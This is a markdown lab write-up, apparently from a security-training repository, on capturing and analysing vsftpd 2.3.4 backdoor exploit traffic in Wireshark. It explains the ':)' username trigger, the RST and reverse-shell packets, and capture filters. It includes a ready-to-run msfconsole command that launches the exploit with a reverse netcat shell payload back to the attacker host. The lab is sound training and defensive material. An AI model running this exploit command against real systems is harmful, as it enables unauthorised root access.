







# 04 — Wireshark: vsftpd Exploit Traffic Analysis

## Category
Red Team / Blue Team / Network Analysis / Wireshark

## Objective
Capture and analyze network traffic generated by the vsftpd 2.3.4
exploit using Wireshark, understanding what physically travels
over the network during an attack.

## Environment

| Role | VM | IP |
|---|---|---|
| Attacker / Sniffer | Kali Linux | 10.10.10.100 |
| Target | Metasploitable2 | 10.10.10.101 |

## Tool
**Wireshark 4.6.4** — network protocol analyzer (packet sniffer).

---

## 🧠 Theory — What to Know Before Looking at Packets

### What is Wireshark

Wireshark is a **packet sniffer**: intercepts and displays all
packets transiting on a network interface. It is like putting
a microphone on the network cable — everything that passes, you see it.

On Kali, we capture on interface `eth0` (the virtual network card
connected to VMnet2). We see all traffic between Kali
and the other lab network hosts.

---

### The TCP 3-Way Handshake — How a Connection Opens

Before two computers exchange data, they must "shake hands"
with 3 packets. This applies to FTP, HTTP, SSH — any protocol
based on TCP.

```
Kali (client)          Metasploitable (server)
     │                        │
     │──── SYN ──────────────▶│  "I want to connect"
     │                        │
     │◀─── SYN-ACK ───────────│  "Ok, confirmed"
     │                        │
     │──── ACK ──────────────▶│  "Received, connection open"
     │                        │
     │  [data]                │
```

In Wireshark these 3 packets are always visible at the start
of every connection — they are the "greeting" between the two hosts.

---

### FTP — Unencrypted Protocol

**FTP (File Transfer Protocol)** is a 1970s protocol that transmits
everything in **cleartext** — username, password, commands
are readable by anyone intercepting the traffic.

This is exactly why vsftpd on Metasploitable is dangerous:
beyond the backdoor, it transmits credentials in plaintext.

In Wireshark with `ftp` filter you see every single line of the FTP
dialogue as if reading a text message.

---

### How the vsftpd Backdoor Works — Packet Level

When Metasploit launches the vsftpd exploit:

**1. Normal FTP connection** (port 21)
```
Kali ──SYN──▶ Meta:21          (opens connection)
Kali ◀──SYN-ACK── Meta         (Meta accepts)
Meta ──▶ "220 vsFTPd 2.3.4"    (FTP banner)
```

**2. Trigger sent** (username with `:)`)
```
Kali ──▶ "USER sjUTx:)"        (random username + trigger ":)")
Meta ──▶ "331 Please specify password"
Kali ──▶ "PASS yrr67T"
Meta ──▶ "500 OOPS"            (strange response = backdoor activated)
```

The malicious code in the vsftpd source checks every username:
if it contains `:)` it executes `/bin/sh` on a separate port.

**3. Connection reset** (RST — red in Wireshark)
```
Kali ──RST──▶ Meta:21          (closes FTP connection)
```

**4. Reverse shell opened** (port 4444)
```
Meta:57990 ──SYN──▶ Kali:4444  (Meta connects to Kali!)
Kali ◀──SYN-ACK── Meta
Meta ──ACK──▶ Kali             (shell opened)
[cleartext command exchange]
```

---

### Bind Shell vs Reverse Shell — The Difference

**Bind Shell** (like bindshell port 1524):
```
Kali ────────────▶ Meta:1524   (Kali connects to target)
```
Target exposes a port → Kali connects.
Problem: firewall blocks incoming ports on target.

**Reverse Shell** (like vsftpd, UnrealIRCd):
```
Meta:XXXXX ──────▶ Kali:4444   (target connects to Kali!)
```
Target calls home → bypasses inbound firewalls.
Firewall allows outbound connections (normal browsing)
but blocks inbound ones.

In Wireshark the reverse shell appears as traffic from the
victim toward the attacker — the arrow direction is reversed
compared to what one would expect.

---

### Wireshark Colors

| Color | Meaning |
|---|---|
| Black on red background | **RST** — connection reset abruptly |
| Light gray | Pure TCP (SYN, ACK, handshake) |
| Green | HTTP |
| White | Normal application data |
| Purple/lilac | DNS |

Red packets in the `tcp.port == 21` filter are the **RST**
sent by Kali after triggering the backdoor — the FTP connection
is forcibly closed because communication now happens on port 4444.

---

### Capture Filter vs Display Filter

```
CAPTURE FILTER (before starting)       DISPLAY FILTER (during)
┌─────────────────────────────┐        ┌─────────────────────────────┐
│ BPF syntax (libpcap)        │        │ Wireshark syntax            │
│ host 10.10.10.101           │        │ ip.addr == 10.10.10.101     │
│ port 21                     │        │ tcp.port == 21              │
│ tcp and host 10.10.10.101   │        │ ftp                         │
│                             │        │ tcp.port == 4444            │
│ Filters BEFORE capturing    │        │ Filters AFTER capture       │
│ (fewer packets saved)       │        │ (all data is there)         │
└─────────────────────────────┘        └─────────────────────────────┘
```

---

## Capture Procedure

### Wireshark Configuration

Start with capture filter already set:
```bash
sudo wireshark
```

On the startup screen:
- Filter field: `host 10.10.10.101`
- Interface: `eth0`
- Double-click on eth0 to start





### Launch Exploit in Parallel

```bash
msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor; \
  set RHOSTS 10.10.10.101; \
  set LHOST 10.10.10.100; \
  set PAYLOAD cmd/unix/reverse_netcat; \
  run"
```





---

## Packet Analysis

### Filter `tcp.port == 21` — Full FTP Connection

Entire sequence visible:
1. **SYN** from Kali to Meta:21 → opening connection
2. **SYN-ACK** from Meta → acceptance
3. **ACK** from Kali → handshake complete
4. FTP banner: `220 vsFTPd 2.3.4`
5. `USER sjUTx:)` — trigger with `:)` embedded
6. `PASS yrr67T` — random password
7. `500 OOPS` — backdoor activated response
8. **RST** (red) — connection reset after trigger



### Filter `ftp` — FTP Dialogue in Cleartext

With this filter only the FTP application layer is visible:

| Packet | Content | Meaning |
|---|---|---|
| Response 220 | `vsFTPd 2.3.4` | FTP server banner |
| Request USER | `sjUTx:)` | **Backdoor trigger** — contains `:)` |
| Response 331 | `Please specify the password` | Server asks for password |
| Request PASS | `yrr67T` | Password (random, irrelevant) |
| Response 500 | `OOPS` | Backdoor activated |
| Response | `priv_sock_get_result` | Internal backdoor function |

FTP traffic is completely in cleartext — anyone listening on
the network sees username and password without any special tool.



### Filter `tcp.port == 4444` — Reverse Shell

After the trigger, Meta opens a connection to Kali:4444.

```
Meta:57990 ──SYN──▶ Kali:4444    (Meta connects to Kali)
Kali ──SYN-ACK──▶ Meta           (Kali accepts)
Meta ──ACK──▶ Kali               (connection established)
[data exchange: shell commands in cleartext]
Meta ──FIN──▶ Kali               (connection closure)
```

**PSH,ACK** packets contain shell data
(typed commands and output). In Follow TCP Stream you would
see: `whoami`, `root`, `id`, etc.



---

## Capture File

The `.pcapng` file is saved locally on Kali:
```
~/vsftpd-exploit-capture.pcapng
```

Can be reopened at any time with Wireshark
to re-analyze packets without re-launching the exploit.

## Snapshot
- `07-kali-wireshark-cattura-vsftpd` (Kali)

## Lessons Learned
- Wireshark captures all cleartext traffic: FTP, Telnet,
  HTTP transmit credentials readable by anyone on the network
- The 3-way handshake (SYN/SYN-ACK/ACK) precedes every TCP
  connection — it is the universal "greeting" of network protocols
- RST packets (red) indicate abrupt connection closure — in the
  vsftpd case, it is the signal that the backdoor was triggered
  and the FTP port is no longer needed
- A reverse shell appears as traffic from target to attacker:
  the arrow direction is reversed compared to normal access
- Capture filter (BPF) and display filter (Wireshark) have different
  syntax but both serve to isolate relevant traffic
- Wireshark is the Blue Team's fundamental tool for understanding
  what is happening on the network during a security incident
